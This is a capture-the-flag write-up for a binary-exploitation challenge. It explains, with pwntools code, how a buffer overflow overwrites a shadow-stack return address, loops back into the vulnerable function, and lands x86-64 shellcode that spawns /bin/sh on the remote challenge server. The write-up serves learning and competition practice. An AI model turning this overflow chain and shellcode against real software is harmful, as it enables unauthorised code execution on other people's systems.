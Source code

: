 I used Python and Pwntools. First part, override the `rbp` variable with the buffer overflow so we write exactly where the return address is.

`.bss` starts at 0x00600234, which is where the handcrafted stack is. The read function will decrement the address by 0x100 so we have to add that to our address: 0x00600334. Finally, the `__stack_depth` value. In the vuln function, the main function only called the vuln one so the value would be 1. 

It multiplies the variable by 8 (`mov qword [__stack_shadow + rcx * 8], %%return_address`) so we have to add 8 * 1 to the address and that will result in: `0x0060033c`

``` python
from pwn import *

#p = process('./chall')
p = remote("pwn.ctf.zer0pts.com", 9011)
offset = b'A' * 0x100
p.clean()
first_exploit = offset + p64(0x0060033c)
p.sendline(first_exploit)
```

Now, let's write the address of the vuln function. We have to avoid the `enter 0x100, 0` because it will break our `rbp` so we will use the next address: `0x00400180`

```python
p.recv()
second_exploit = p64(0x00400180)
p.sendline(second_exploit)
p.recv()
```

And finally the last part. We will put the shellcode on 0x600740. We are writing on 0x0060023c so we need an offset of 0x504 (minus the 8 bytes from the address of the shellcode):

```python
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
offset2 = b'A' * (0x4fc)
third_exploit = p64(0x600740) + offset2 + shellcode
p.sendline(third_exploit)
p.interactive()
```

And we got it!

![Sections](/./assets/imgs/not-beginner-solved.png)

